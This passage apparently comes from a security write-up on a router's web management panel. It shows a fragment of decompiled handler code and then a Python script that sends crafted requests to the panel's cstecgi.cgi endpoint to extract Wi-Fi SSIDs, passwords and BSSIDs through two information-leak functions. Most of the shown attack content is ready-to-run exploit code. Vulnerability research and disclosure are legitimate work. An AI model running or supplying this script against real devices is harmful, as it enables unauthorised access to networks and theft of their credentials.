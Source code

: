 ```
    cJSON_AddItemToObject(uVar1,"apcliStatus",uVar3);
  }
  SetWlan_idx(&local_238);
  __ptr = (void *)cJSON_Print(uVar1);
  websGetCfgResponse(param_1,param_3,__ptr);
  free(__ptr);
  cJSON_Delete(uVar1);
  return 0;
}
```

If we requested this function in the panel we can see the results clearly as the following:

![](/assets/images/bcf7303ec21af422b4cb82958c1a330c)

Now, Let's write a python code to exploit both functions and retrieve the leaked important information:

```
import requests
import sys
from json import *

def getWiFiApConfig(target):
    url = f"http://{target}/cgi-bin/cstecgi.cgi"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Origin": f"http://{target}", "DNT": "1", "Connection": "close", "Referer": f"http://{target}/ap.asp?timestamp=1679528272527"}
    json={"topicurl": "setting/getWiFiApConfig"}
    r = requests.post(url, headers=headers, json=json)
    data = loads(r.text)
    print("=========================================")
    print("[+] Access Point Information")
    print("SSID:", data["ssid"])
    print("Key:", data["key"])
    print("[+] 5G Access Point Information")
    print("SSID:", data["ssid5g"])
    print("Key:", data["key5g"])

def getWiFiApInfo(target):
    url = f"http://{target}/cgi-bin/cstecgi.cgi"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Origin": f"http://{target}", "DNT": "1", "Connection": "close", "Referer": f"http://{target}/ap.asp?timestamp=1679528272527"}
    json={"topicurl": "setting/getWiFiApInfo"}
    r = requests.post(url, headers=headers, json=json)
    data = loads(r.text)
    print("=========================================")
    print(f"[+] Access Point {data['ssid1']}")
    print("Key:", data["wifiKey1"])
    print("Status:", data["wifiOff1"])
    print("BSSID:", data["bssid1"])
    print(f"[+] Access Point {data['ssid2']}")
    print("Key:", data["wifiKey2"])
    print("Status:", data["wifiOff2"])
    print("BSSID:", data["bssid2"])
    print(f"[+] Access Point {data['ssid3']}")
    print("Key:", data["wifiKey3"])
    print("Status:", data["wifiOff3"])
    print("BSSID:", data["bssid3"])
```